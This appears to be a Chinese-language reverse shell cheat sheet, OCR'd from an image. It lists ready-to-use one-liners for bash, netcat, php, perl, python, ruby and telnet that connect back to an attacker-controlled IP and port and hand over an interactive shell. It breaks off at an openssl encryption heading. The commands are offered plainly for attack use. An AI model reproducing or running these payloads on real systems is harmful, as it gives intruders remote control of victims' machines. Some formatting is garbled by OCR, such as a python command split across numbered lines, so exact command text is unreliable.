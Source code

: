 Linux 上也存在一些自带命令/工具，来进行反弹 shell 得到一个 (非) 交互式 shell。  
下述命令中的 yourip 为攻击者监听的 ip；yourport 为攻击者监听的端口。

## bash

```bash
bash -c 'exec bash -i &>/dev/tcp/yourip/yourport <&1'
```

## netcat

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc yourip yourport >/tmp/f
```

## php

```bash
php -r '$sock=fsockopen(getenv("yourip"),getenv("yourport"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

## perl

```bash
perl -e 'use Socket;$i="$ENV{yourip}";$p=$ENV{yourport};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python

1.  `python -c 'import sys,socket,os,pty;s=socket.socket()`
2.    `s.connect((os.getenv("yourip"),int(os.getenv("yourport"))))`
3.    `[os.dup2(s.fileno(),fd) for fd in (0,1,2)]`
4.    `pty.spawn("/bin/sh")'`

## ruby

```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["yourip"],ENV["yourport"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## telnet

```ruby
TF=$(mktemp -u); mkfifo $TF && telnet 127.0.0.1 1337 0<$TF | /bin/sh 1>$TF
```

## openssl 加密

服务端生成证书：
